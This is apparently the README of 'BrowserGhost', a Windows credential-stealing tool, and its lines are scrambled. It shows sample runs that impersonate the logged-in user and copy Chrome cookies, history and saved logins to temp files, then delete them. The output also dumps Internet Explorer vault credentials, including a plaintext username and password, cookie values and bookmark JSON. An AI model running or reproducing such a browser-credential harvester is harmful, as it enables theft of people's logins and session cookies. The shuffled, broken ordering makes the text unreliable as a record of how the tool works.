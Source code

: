 		URL=https://github.com/session
	Credential   : Iloveprettygirls
	Identity     : n0thing@gmail.com
	LastModified : 2020/6/17 7:08:50
	Resource     : https://github.com/
	Vault Type   : Web Credentials
	[+] Copy C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Cookies to C:\Users\Administrator\AppData\Local\Temp\tmp6D94.tmp
	[+] Copy C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\History to C:\Users\Administrator\AppData\Local\Temp\tmp6E32.tmp
	[+] Copy C:\Users\Administrator\AppData\Local\Google\Chrome\User Data\Default\Login Data to C:\Users\Administrator\AppData\Local\Temp\tmp6B9F.tmp
	[+] Delete File C:\Users\Administrator\AppData\Local\Temp\tmp6B9F.tmp
	[+] Delete File C:\Users\Administrator\AppData\Local\Temp\tmp6D94.tmp
	[+] Delete File C:\Users\Administrator\AppData\Local\Temp\tmp6E32.tmp
	[.github.com] 	 _octo=GH1.1.3xxxxxxxxx5173
	[.google.com] 	 NID=204=DEIRBPT8FML_IsHGv1B2xxxxxxxxxxxxxxxxxxxSRlaNRV3-nfhFV8aHAgO6Smtf4JXQqR-W63p0KOVKgVd0VCXv4bKww97DEhc-PI1sVdbD4hGOuVwchN4Bwo-V61AtfjZM
	[PASSWORD] -> Iloveprettygirls
	[URL] -> https://xui.ptlogin2.qq.com/cgi-bin/xlogin
	[USERNAME] -> n0thing@gmail.com
	[github.com] 	 _device_id=516175fxxxxxxxxx90133c2
	http://github.com/
	http://go.microsoft.com/fwlink/p/?LinkId=255141
	https://github.com/ 	 GitHub
	https://github.com/john
	https://github.com/join
	https://github.com/login
	https://github.com/sign

            "date_added": "13236861887917624",
            "guid": "c5df2041-d745-4173-af39-b5c48f8d98a2",
            "id": "5",
            "name": "GitHub",
            "type": "url",
            "url": "https://github.com/"
         "children": [  ],
         "children": [ {
         "date_added": "13236861618031351",
         "date_added": "13236861618031378",
         "date_added": "13236861618031381",
         "date_modified": "0",
         "date_modified": "13236861887917624",
         "guid": "00000000-0000-4000-a000-000000000002",
         "guid": "00000000-0000-4000-a000-000000000003",
         "guid": "00000000-0000-4000-a000-000000000004",
         "id": "1",
         "id": "2",
         "id": "3",
         "type": "folder"
         } ],
      "bookmark_bar": {
      "other": {
      "synced": {
      }
      },
   "checksum": "eee70b132cc4f9644d01f989e18fdb38",
   "roots": {
   "version": 1
   },
![](2.png)
# BrowserGhost
===============Chrome=============
===============IE=============
C:\Users\Administrator\Desktop>BrowserGhost.exe
[*] Current user Administrator
[*] Impersonate user Administrator
[*] Recvtoself
[*] [4764] [explorer] [Administrator]
[*]Get Chrome Bookmarks
[*]Get Chrome Cookie
[*]Get Chrome History
[*]Get Chrome Login Data
[*]Get IE Books
[*]Get IE History
[*]Get IE Password
[+] Current user Administrator
```
{
}
